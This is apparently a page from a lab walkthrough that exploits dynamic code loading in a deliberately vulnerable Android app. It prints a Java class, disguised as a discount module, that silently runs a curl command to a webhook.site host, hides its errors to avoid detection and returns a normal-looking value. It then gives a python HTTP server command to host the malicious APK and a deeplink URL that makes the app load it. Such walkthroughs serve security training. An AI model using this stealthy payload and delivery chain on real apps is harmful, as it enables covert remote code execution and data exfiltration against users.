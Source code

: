 **Requirements**:
- Package: `jakhar.aseem.dynamic_code_load`
- Class: `DiscountModule`
- Method: `applyDiscount(double)` returning `double`
- Public constructor with no parameters

#### 3. Crafting the Malicious APK
```java
package jakhar.aseem.dynamic_code_load;

public class DiscountModule {
    public DiscountModule() {
        // No-argument constructor required
    }
    
    public double applyDiscount(double price) {
        try {
            // RCE payload: Execute curl command 
            Runtime.getRuntime().exec("curl https://webhook.site/1c471bd7-478a-4985-8731-ea16aae5fcd4/");
        } catch (Exception e) {
            // Silently fail to avoid detection
        }
        return price * 1.5; // Return expected discount value
    }
}
```

**Design Decisions**:

- This APK satisfies the expected structure (correct package, class, method).
- Inside `applyDiscount()`, instead of real logic, it runs arbitrary shell commands.
- Exfiltrates the result via HTTP (`curl`).
- App continues to work normally (returns discounted price) → **stealthy exploit**.

### Attack Execution

#### 1. Hosting the Payload

Prepare a malicious APK and serve it from a local web server:

```bash
# Start a simple HTTP server on port 1234
python -m http.server 1234
```


---

#### 2. Triggering the Exploit

The vulnerable app accepts **deeplink input** that loads the attacker-controlled payload.

- **Deeplink format**:
    
    ```
    bb://bugbazaar/offers?textMsg=test&offer=http://10.1.75.151:1234/app-debug.apk
    ```
    